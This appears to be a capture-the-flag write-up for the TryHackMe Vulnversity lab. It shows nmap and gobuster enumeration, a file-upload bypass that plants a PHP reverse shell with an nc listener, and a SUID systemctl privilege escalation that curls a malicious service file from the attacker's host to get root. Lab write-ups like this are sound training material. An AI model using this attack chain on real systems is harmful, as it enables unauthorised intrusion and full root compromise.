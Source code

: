 # Vulnversity

2021-12-21

## NMAP

| Flag | Description|
|----|---|
| -sV | Determine versions of running services
| -sC | Scan with default namp scripts

```
koffee@kali:~/tryhackme/vulnversity$ nmap -sV -sC -oN scan.nmap 10.10.65.121 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-21 14:10 CST
Nmap scan report for 10.10.65.121
Host is up (0.11s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-12-21T15:11:02-05:00
| smb2-time: 
|   date: 2021-12-21T20:11:01
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.14 seconds
```

# GoBuster

| Flag | Description|
|----|---|
-e |	Print the full URLs in your console |
-u / --url	| The target URL
-w	| Path to your wordlist
-U and -P	| Username and Password for Basic Auth
-p | Proxy to use for requests
-c | Specify a cookie for simulating your auth
	
```
koffee@kali:~/tryhackme/vulnversity$ gobuster dir --url http://10.10.65.121:3333 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.65.121:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/21 14:22:31 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htpasswd            (Status: 403) [Size: 298]
/.htaccess            (Status: 403) [Size: 298]
/css                  (Status: 301) [Size: 317] [--> http://10.10.65.121:3333/css/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.65.121:3333/fonts/]
/images               (Status: 301) [Size: 320] [--> http://10.10.65.121:3333/images/]
/index.html           (Status: 200) [Size: 33014]                                     
/internal             (Status: 301) [Size: 322] [--> http://10.10.65.121:3333/internal/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.65.121:3333/js/]      
/server-status        (Status: 403) [Size: 302] 
```

## OWASP ZAP Fuzzing

Tools >> Options >> Local Proxies >> `localhost:8080`
Tools >> Options >>  Dynamic SSL Certificates >> Save

Inside Firefox 

Preferences >> Security & Privacy >> View Certificates >> Import
Set HTTP Proxy to use `localhost:8080`

Make POST request to upload file >> highlight uploaded file >> Right Click >> Fuzz

We see that `.phtml` files are allowed

## Reverse Shell

Download [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change `$ip` and `$port` inside script, open firewall

```
nc -lvnp 8888
```

Rename `php-reverse-shell.php` to `.phtml` and upload, then naviagate to `http://<ip>:3333/internal/uploads/php-reverse-shell.phtml`

## SUID

```
find / -user root -perm -4000 -exec ls -ldb {} \;

/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

## Systemctl Privilege Escalation

https://gtfobins.github.io/gtfobins/systemctl/

On Attacker System:

```
% cat service.txt
[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/out"
[Install]
WantedBy=multi-user.target
```

Host using `python3 -m http.server 9999`

On Remote Shell

```
% TF=$(mktemp).service
% curl 10.x.x.x:9999/service.txt > $TF
% systemctl link $TF
% systemctl enable --now $TF

TF=$(mktemp).service && curl 10.x.x.x:9999/service.txt > $TF && systemctl link $TF && systemctl enable --now $TF && cat /tmp/out

% cat /tmp/out
uid=0(root) gid=0(root) groups=0(root)
```
Go and change the service text to find the flag
 
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/out"
[Install]
WantedBy=multi-user.target
```

```
$ TF=$(mktemp).service \
  && curl 10.x.x.x:9999/service.txt > $TF \
  && systemctl link $TF \
  && systemctl enable --now $TF \
  && cat /tmp/out

% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   114  100   114    0     0    337      0 --:--:-- --:--:-- --:--:--   337
Created symlink from /etc/systemd/system/tmp.L3uCyJblwK.service to /tmp/tmp.L3uCyJblwK.service.
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.L3uCyJblwK.service to /tmp/tmp.L3uCyJblwK.service.
uid=0(root) gid=0(root) groups=0(root)
total 4
drwxr-xr-x 2 bill bill 4096 Jul 31  2019 bill
total 4
-rw-r--r-- 1 root root 33 Jul 31  2019 root.txt
[REDACTED]
```
